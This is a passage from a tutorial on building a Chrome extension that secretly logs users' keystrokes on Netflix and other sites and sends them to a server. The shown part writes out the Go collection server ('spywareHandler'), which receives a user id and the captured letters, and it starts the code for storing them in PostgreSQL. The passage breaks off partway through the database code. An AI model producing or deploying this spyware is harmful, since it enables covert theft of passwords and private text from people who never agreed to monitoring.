Now we have a fulling functioning chrome extension that sends users to Netflix when they click a button and sends a server all the user’s keystrokes inside of Netflix, along with other websites they visit.

### Icons
I used Photoshop to generate the icons used in the extension. View the icons, along with the rest of the code, in the current repo.

## Server
Now that we have a fully functioning client sending data to a random server, we need to create a server. We are going to be creating a straightforward server in Go that parses our request and inserts the `id` and character list into a database. First, install [Go](https://golang.org/doc/install), [go-pg/pg](https://github.com/go-pg/pg), and [PostgreSQL](https://wiki.postgresql.org/wiki/Detailed_installation_guides). Next, we write a single HTTP Handler that parses the input that we defined in the Client. Since the Client does not care about a response, we won’t bother returning one.

```go
package main

import (
  "log"
  "net/http"
)

func spywareHandler(w http.ResponseWriter, r *http.Request) {
  userId := r.FormValue("userId")
  letters := r.FormValue("letters")
  log.Println(userId, letters)
}

func main() {
  http.HandleFunc("/", spywareHandler)
  http.ListenAndServe(":8000", nil)
}
```

Now that we have our data, we want to start sending it to the PostgreSQL database. We are going to be using the [go-pg/pg](https://github.com/go-pg/pg) ORM package to connect to our database. To configure our database variables, we are going to use an environment variable.

```bash
export DATABASE_URL="postgres://postgres:@localhost:5432/chrome_spyware"
```

`go-pg/pg` doesn’t have a built in function to handle database strings, so we need to write our own. The function gets environment variable, parse the database string, connect to the database, and return the connection.

```go
func createDB() *pg.DB {
  url := os.Getenv("DATABASE_URL")
  url = strings.TrimPrefix(url, "postgres://")

  dbAt := strings.LastIndex(url, "/") + 1
  database := url[dbAt:]
  url = url[:dbAt-1]

  authAndHost := strings.Split(url, "@")
  auth := strings.Split(authAndHost[0], ":")
  username := auth[0]
  password := auth[1]
  hostAndPort := authAndHost[1]

  db := pg.Connect(&pg.Options{
    User:     username,
    Password: password,
```